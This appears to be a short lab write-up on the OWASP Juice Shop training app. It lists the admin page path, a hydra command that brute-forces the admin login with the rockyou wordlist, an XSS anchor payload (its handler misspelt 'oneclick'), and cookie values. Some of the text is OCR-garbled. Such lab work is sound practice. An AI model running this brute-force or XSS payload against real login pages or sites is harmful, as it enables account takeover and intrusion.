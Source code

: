 1-	The admin path  (https://juiceshop.herokuapp.com/#/administration)  
![{C5EB1965-CD9A-44E5-AD11-74A08718781B}](https://github.com/user-attachments/assets/1516fbdb-efe2-4b2e-a878-2ff7e3905850)



2-(hydra -l admin@juice-sh.op -P  /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form  
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F 


![image](https://github.com/user-attachments/assets/61580b47-9d74-4394-80ea-ac97513c2b9a)


3-	<a href=”#”  oneclick=”alert(‘XSS’)”> OFFERS!!! </a>
![image](https://github.com/user-attachments/assets/3bd63a29-c1a5-4edf-b64b-1f12cad7397b)

4-The cookie: 
(language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss) 
![image](https://github.com/user-attachments/assets/9eba5710-81ae-45e5-99b4-eeb9b052e58f)


